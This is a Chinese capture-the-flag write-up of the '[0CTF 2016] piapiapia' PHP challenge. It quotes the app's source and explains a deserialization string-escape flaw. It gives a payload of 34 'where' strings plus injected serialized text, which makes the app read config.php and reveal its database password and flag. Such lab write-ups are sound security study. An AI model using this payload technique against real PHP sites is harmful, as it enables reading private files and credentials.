 ```yaml
---
title: buuoj刷题记录1
date: 2019-12-23 19:44:18
---
```


## [0CTF 2016]piapiapia

### 0x01 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

PHP序列化[参考文章](https://www.php.cn/php-notebook-239422.html)

### 0x02 分析

题中`www.zip`中包含源码，下载~~后进行代码审计（不会）~~翻阅PHP手册，各种百度。在config.php中包含flag，要想办法获取到此文件
config.php

```
<?php
    $config['hostname'] = '127.0.0.1';
    $config['username'] = 'root';
    $config['password'] = '';
    $config['database'] = '';
    $flag = '';
?>
```
查看index.php
​```php
if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');//登入后跳转到profile.php
			exit;	
		}
```
查看profile.php
​```PHP
<?php   
    require_once('class.php');
if($_SESSION['username'] == null) { 
    die('Login First');
}   
$username = $_SESSION['username'];
$profile=$user->show_profile($username);
if($profile  == null) { 
    header('Location: update.php'); //$profile为空，跳转到update.php
}
else { 
    $profile = unserialize($profile); //一般看见unserialize()会考虑反序列化漏洞，
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));//file_get_contents()此函数可以获得文件内容
?>
```
update.php
```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

    $username = $_SESSION['username'];
    if(!preg_match('/^\d{11}$/', $_POST['phone']))
        die('Invalid phone');

    if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
        die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

    $file = $_FILES['photo'];
    if($file['size'] < 5 or $file['size'] > 1000000)
        die('Photo size error');

    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);

    $user->update_profile($username, serialize($profile));//将$profile序列化，执行过滤函数
    echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
}
```
查看update_profile()函数
```PHP
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile); 
    $where = "username = '$username'"; 
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```
查看filter()函数
```php
public function filter($string) {
    $escape = array('\'', '\\\\'); 
    $escape = '/' . implode('|', $escape) . '/'; 
    $string = preg_replace($escape, '_', $string); //将  “ ‘ ”、 “\\\\” 替换成 “_” 
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string); //将“ select|insert|update|delete|where” 替换成 "hacker"，返回替换后的字符串
}
```

在update_profile()，返回到profile.php.

```php
$profile = unserialize($profile); //反序列化$profile
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));

```

序列化后

```
$profile=a:4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"12@12.12";s:8:"nickname";s:4:"1234";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}
```
要让$photo得到的文件是config.php也就是

```
s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";
```
变成 
```
s:5:"photo";s:10:"config.php";
```
序列化后的长度是固定的，但是在经过过滤函数时候，nickname传入where会被替换成hacker,多出一个字符，这样就可以修改反序列化后的photo所对应的文件，使其为config.php。

因为nickname有长度限制使用数组可以绕过

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
让nickname的值为`"};s:5:"photo";s:10:"config.php";}`长度为34,传入34个where
### 0x03 开始操作

![1](1.png) 传入参数

访问profile.php

![2](2.png)

将base64解码


```php
<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{94b7c4b2-866d-4189-9b0a-abdf22990071}';
?>
```

